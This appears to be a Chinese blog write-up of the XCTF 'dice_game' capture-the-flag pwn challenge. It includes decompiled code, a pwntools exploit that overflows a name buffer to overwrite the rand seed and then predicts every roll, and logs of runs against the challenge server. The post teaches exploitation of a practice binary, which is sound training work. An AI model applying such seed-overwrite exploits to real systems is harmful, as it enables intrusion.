



<!--yml
category: 未分类
date: 2022-04-26 14:37:28
-->

# dice_game [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列12_3riC5r的博客-CSDN博客_dice game

> 来源：[https://blog.csdn.net/fastergohome/article/details/103662086](https://blog.csdn.net/fastergohome/article/details/103662086)

题目地址：[dice_game](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4694&page=1)

从这篇开始就正式进入高手进阶区，一些简单的知识点我这里就不会再重复赘述了，请有需要的同学看前面的章节。

废话不多，看看题目



题目没什么提示，只是知道这个题目的来源是：XCTF 4th-QCTF-2018

下载附件，看看情况，照例做下保护机制检查

```
root@mypwn:/ctf/work/python/dice_game# checksec dice_game
[*] '/ctf/work/python/dice_game/dice_game'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

打开了各种限制条件，作为难度为1的题目，感觉有点吓唬人哩！

没事，先做下反编译



高手进阶区的题目，我会先对反编译之后的c语言代码做下命名修改，方便同学们可以快速理解，要不然v1、v2这种变量函数命名对于复杂题目的快速判断会造成不小的干扰。

下面我就直接把我已经修改好命名的c语言代码贴出来，这个程序主要有三个函数，我按照函数的意义进行了重命名，分别是main, go_game, get_flag。

先看下main函数：

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char szName[55]; // [rsp+0h] [rbp-50h]
  char nResultGame; // [rsp+37h] [rbp-19h]
  ssize_t nLenName; // [rsp+38h] [rbp-18h]
  unsigned int seed[2]; // [rsp+40h] [rbp-10h]
  unsigned int nRound; // [rsp+4Ch] [rbp-4h]

  memset(szName, 0, 0x30uLL);
  *(_QWORD *)seed = time(0LL);
  printf("Welcome, let me know your name: ", a2);
  fflush(stdout);
  nLenName = read(0, szName, 0x50uLL);
  if ( nLenName <= 49 )
    szName[nLenName - 1] = 0;
  printf("Hi, %s. Let's play a game.\n", szName);
  fflush(stdout);
  srand(seed[0]);
  nRound = 1;
  nResultGame = 0;
  while ( 1 )
  {
    printf("Game %d/50\n", nRound);
    nResultGame = go_game();
    fflush(stdout);
    if ( nResultGame != 1 )
      break;
    if ( nRound == 50 )
    {
      get_flag((__int64)szName);
      break;
    }
    ++nRound;
  }
  puts("Bye bye!");
  return 0LL;
}
```

然后是另外两个函数：

```
signed __int64 go_game()
{
  signed __int64 result; // rax
  __int16 nInputPoint; // [rsp+Ch] [rbp-4h]
  __int16 nRandPoint; // [rsp+Eh] [rbp-2h]

  printf("Give me the point(1~6): ");
  fflush(stdout);
  _isoc99_scanf("%hd", &nInputPoint);
  if ( nInputPoint > 0 && nInputPoint <= 6 )
  {
    nRandPoint = rand() % 6 + 1;
    if ( nInputPoint <= 0 || nInputPoint > 6 || nRandPoint <= 0 || nRandPoint > 6 )
      _assert_fail("(point>=1 && point<=6) && (sPoint>=1 && sPoint<=6)", "dice_game.c", 0x18u, "dice_game");
    if ( nInputPoint == nRandPoint )
    {
      puts("You win.");
      result = 1LL;
    }
    else
    {
      puts("You lost.");
      result = 0LL;
    }
  }
  else
  {
    puts("Invalid value!");
    result = 0LL;
  }
  return result;
}

int __fastcall get_flag(__int64 a1)
{
  char s; // [rsp+10h] [rbp-70h]
  FILE *stream; // [rsp+78h] [rbp-8h]

  printf("Congrats %s\n", a1);
  stream = fopen("flag", "r");
  fgets(&s, 100, stream);
  puts(&s);
  return fflush(stdout);
}
```

通过分析可以看出，这个题目在新手练习区做过类似的题目，主要是对伪随机数的处理。

那我们最重要的事情就是要把随机数的种子覆盖成我们定义的固定值

```
srand(seed[0]);
```

顺着这个思路我们看看，有没有漏洞可以利用，检查一下设置随机数种子之前的代码



我们发现szName有一个输入的地方，输入限制是0x50，szName的rbp偏移值是50h，刚好相等，不能做栈溢出。

继续看一下seed的rbp偏移值是10h，那不就是说在输入szName的时候可以覆盖到seed的值。

思路就是这样的，我们构建一下payload：

```
payload = 'A'*0x40 + p64(1)
```

根据payload编写python脚本如下：

```
#coding:utf8

from pwn import *

process_name = './dice_game'
p = process(process_name)

payload = 'A'*0x40 + p64(1)

p.sendlineafter('Welcome, let me know your name: ', payload)
p.interactive()
```

执行测试情况如下：

```
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 62
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 1
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 62)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 67
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 1
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 67)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 72
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 2
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 72)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 77
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 3
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 77)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 82
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 4
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 82)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 87
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI. Let's play a game.
Game 1/50
Give me the point(1~6): $ 2
You win.
Game 2/50
Give me the point(1~6): $ 5
You win.
Game 3/50
Give me the point(1~6): $ 1
You lost.
Bye bye!
[*] Process './dice_game' stopped with exit code 0 (pid 87)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@mypwn:/ctf/work/python/dice_game# 
```

我们可以看到通过遍历已经试出来前面两个值为2，5。

那就说明没问题，我们就直接载入libc来自动计算随机数，python脚本如下：

```
#coding:utf8

from pwn import *
from ctypes import *

process_name = './dice_game'
p = process(process_name)
# p = remote('111.198.29.45', 38348)
# elf = ELF(process_name)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(1)

payload = 'A' * 0x40 + p64(1)

p.sendlineafter('Welcome, let me know your name: ', payload)

for i in range(50):
	rand_value = libc.rand() % 6 + 1
	p.sendlineafter('Give me the point(1~6): ', str(rand_value))

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 119
[*] Switching to interactive mode
You win.
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI
[*] Got EOF while reading in interactive
$ 
```

执行成功，调整到服务器上执行：

```
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Opening connection to 111.198.29.45 on port 38348: Done
[*] Switching to interactive mode
You win.
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI
cyberpeace{991fe8e6d17a37f714a01d68d3520c2a}

Bye bye!
[*] Got EOF while reading in interactive
$ 
```

这个题目就解答完毕了！主要涉及的知识点是栈内溢出和伪随机数。